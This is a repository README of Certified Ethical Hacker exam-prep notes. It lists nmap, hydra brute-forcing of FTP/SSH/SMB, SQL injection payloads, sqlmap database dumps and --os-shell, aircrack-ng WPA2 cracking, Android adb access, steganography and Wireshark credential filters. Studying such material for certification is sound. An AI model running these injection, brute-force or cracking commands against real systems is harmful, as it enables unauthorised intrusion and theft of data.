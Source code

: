 # CEH
Everything you need to Know

**FQDN**
nmap -A 10.10.1.1/24
Do the Nmap scan for the 10.10.1.1/24 for the FQDN, Then search FQDN.


**Android**
The command you've provided, "adb connect ip:5555," is used to connect an Android device to your computer over the Android Debug Bridge (ADB) via a specified IP address and port (5555 in this case). This command is typically used when you want to connect to an Android device wirelessly.
CMD: 
1: adb connect ip:5555
2: adb shell
(you may see in sd or down)
3: adb pull name/of/dir (if you stuck use sudo -i)
4: install ent (apt install ent)
5: ent file.elf (check all the elf file and choose a highest value)
6: sha384sum file.elf (highest entropy value file)

The command you've provided, "adb connect ip:5555," is used to connect an Android device to your computer over the Android Debug Bridge (ADB) via a specified IP address and port (5555 in this case). This command is typically used when you want to connect to an Android device wirelessly. CMD: step1: adb connect ip:5555 step2: adb shell

ftp
hydra -L user.txt -P pass.txt ftp://ip
to connect CMD: ftp ip
CMD: get file name (to download the file to view)

**SSH**
hydra -L uesr.txt -P pass.txt IP ssh
ssh usernmae@ip (or) ssh username@ip:22 (or) ssh usernmae@ip -p port

analyze a IOT file 
filter it as MQTT
CMD: mqtt
in info Go to publish message
then go to a MQ Telemtry transport protocol
here we go we got the msg len

Find for nmap ssh port open 
nmap -sV -p 22 ip/24
connect to ssh port 
CMD : ssh username@ip
enter the password

sudo -l (look for for checking permission) its not important

hydra -L user.txt -P pass.txt ip smb
smbclient -U username -L ip
smbclient -U username \\\\ip\\disk name
dir (or) ls
cd 
get filename


BCTextEncoder

**Zaproxy**

1- Auth Bypass-  hi'OR 1=1 --
2- Insert new details if sql injection found in login page in username tab enter- blah';insert into login values('john','apple123');--
3- Exploit a Blind SQL Injection- In the website profile, do inspect element and in the console tab write -  document.cookie
Then copy the cookie value that was presented after this command. Then go to terminal and type this command,
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs
4- Command to check tables of database retrieved-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename --tables
5- Select the table you want to dump-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T Table_Name --dump   (Get username and password)
6- For OS shell this is the command-   sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell
6.1 In the shell type-   TASKLIST  (to view the tasks)
6.2 Use systeminfo for windows to get all os version
6.3 Use uname -a for linux to get os version

**SQL CMD:**
login and view profile 
inspect document.cookie
sqlmap -u "URL" --cookie="cooke value" --dbs
sqlmap -u "URL" --cookie="cooke value" -D databasename --tables
sqlmap -u "URL" --cookie="cooke value" -D databasename -T table name --dump

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs   (databases)
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart –tables   (tables)
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users --columns   (columns)
(dump whole table)
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users  --dump 
 OR 
(dump individual  column data)
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname  --dump 
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass  --dump

 **openstego** 
    (or)
1- Hide Data Using Whitespace Stegnography- snow -C -m "My swiss account number is 121212121212" -p "magic" readme.txt readme2.txt  (magic is password and your secret is stored in readme2.txt along with the content of readme.txt)
2- To Display Hidden Data- snow -C -p "magic" readme2.txt (then it will show the content of readme2.txt content)
3- Image Stegnography using Openstego- PRACTICE ??

**VeraCrypt**
open veracrypt 
select any volume 
then select a veracrypt file in the select file options
and then mount 
enter the password given (use the crack station to crack)

**Cracking Wifi Password**
aircrack-ng [pcap file] (For cracking WEP network)
after this you can see a BSSID
aircrack-ng -a2 -b [Target BSSID] -w [password_Wordlist.txt] [WP2 PCAP file] (For cracking WPA2 or other networks through the captured .pcap file)

1. aircrack-ng file.cap

aircrack-ng -a2 -b BSSID -w password.txt pcap file

2. aircrack-ng file.cap -w password.txt

(DDoS) tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given
(DoS) tcp.flags.syn == 1   (Which machine for dos)
http.request.method == POST   (for passwords) or click tools ---> credentials
Also



**CREDENTIALS** 

To find a login credentials username and passsword 
open the given file in wireshark 
http.request.method == POST   (for passwords) or click tools ---> credentials
go to hypertext transfer protocol 
at the end you can find here we go boom

**DoS**

Go to statistics 
IPv4 addresses
Source and Destination
Then you can apply the filter given
tcp.flags.syn == 1 and tcp.flags.ack == 0 (hint hights count)

**DDoS**

tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given
tcp.flags.syn == 1   (Which machine for dos)
http.request.method == POST   (for passwords) or click tools ---> credentials

find / -type f -perm -4000 2>/dev/null
gunzip /usr/share/wordlists/rockyou.txt.gz
unzip file.zip
fcrackzip file.zip
nc -lvnp port
find . -name flag.txt
gobuster dir -u http://ip -w wordlist
C:\> D:
D:\>
cd /d D:\Your\Desired\Directory



Domain user account 
login rdp (username and pass will be given)
cmd :net user

cryp-tool ECB(.hex) format FTP

oprn cryptool
Encrypt/Decrypt
symmetric (morden)
DES (ECB)
can can get the ftp credintial
